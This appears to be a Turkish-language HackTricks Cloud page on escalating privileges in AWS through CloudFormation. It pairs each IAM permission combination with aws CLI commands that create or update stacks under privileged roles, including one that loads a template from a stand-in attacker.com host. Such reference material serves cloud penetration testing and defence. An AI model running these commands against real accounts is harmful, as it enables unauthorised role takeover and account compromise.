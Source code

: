 # AWS - Cloudformation Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## cloudformation

Cloudformation hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Bu izinlere sahip bir saldırgan, **belirtilen bir rolün izinleri altında eylemler gerçekleştirmek için** kendi sunucusunda barındırılan özel bir şablon ile bir **CloudFormation yığını** oluşturarak **yetkileri artırabilir:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Aşağıdaki sayfada **`cloudformation:DescribeStacks`** ek izni ile bir **istismar örneği** bulacaksınız:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Olası Etki:** Belirtilen cloudformation hizmet rolüne privesc.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Bu durumda, **mevcut bir cloudformation yığını** kötüye kullanarak güncelleyebilir ve önceki senaryodaki gibi ayrıcalıkları artırabilirsiniz:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` izni, bir yığın üzerinde **kendinize `UpdateStack` izni vermek** için kullanılabilir ve saldırıyı gerçekleştirebilirsiniz.

**Olası Etki:** Belirtilen cloudformation hizmet rolüne privesc.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Bu izne sahipseniz ancak **hiç `iam:PassRole` yoksa**, yine de **kullanılan yığınları güncelleyebilir** ve **zaten eklenmiş IAM Rolleri** kötüye kullanabilirsiniz. Sömürü örneği için önceki bölüme bakın (güncellemeye herhangi bir rol belirtmeyin).

`cloudformation:SetStackPolicy` izni, bir yığın üzerinde **kendinize `UpdateStack` izni vermek** için kullanılabilir ve saldırıyı gerçekleştirebilirsiniz.

**Olası Etki:** Zaten eklenmiş cloudformation hizmet rolüne privesc.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Bir rolü **geçirme ve bir ChangeSet oluşturma & yürütme** izinlerine sahip bir saldırgan, **yeni bir cloudformation yığını oluşturup/güncelleyebilir ve cloudformation hizmet rollerini** CreateStack veya UpdateStack ile olduğu gibi kötüye kullanabilir.

Aşağıdaki sömürü, **ChangeSet izinlerini** kullanarak bir yığın oluşturmanın **bir varyasyonudur**[ **CreateStack bir**](./#iam-passrole-cloudformation-createstack).
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` izni, bir yığın üzerinde **kendinize `ChangeSet` izinleri vermek** için kullanılabilir ve saldırıyı gerçekleştirebilirsiniz.

**Olası Etki:** cloudformation hizmet rolleri için privesc.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Bu, **IAM rolleri** geçmeden önceki yöntem gibidir, bu nedenle sadece **zaten eklenmiş olanları kötüye kullanabilirsiniz**, sadece parametreyi değiştirin:
```
--change-set-type UPDATE
```
**Olası Etki:** Zaten ekli olan cloudformation hizmet rolüne privesc.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Bir saldırgan, bu izinleri kötüye kullanarak, keyfi cloudformation rollerini kötüye kullanmak için StackSet'ler oluşturup güncelleyebilir.

**Olası Etki:** Cloudformation hizmet rollerine privesc.

### `cloudformation:UpdateStackSet`

Bir saldırgan, ekli cloudformation rollerini kötüye kullanmak için passRole izni olmadan bu izni kötüye kullanarak StackSet'leri güncelleyebilir.

**Olası Etki:** Ekli cloudformation rollerine privesc.

## Referanslar

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
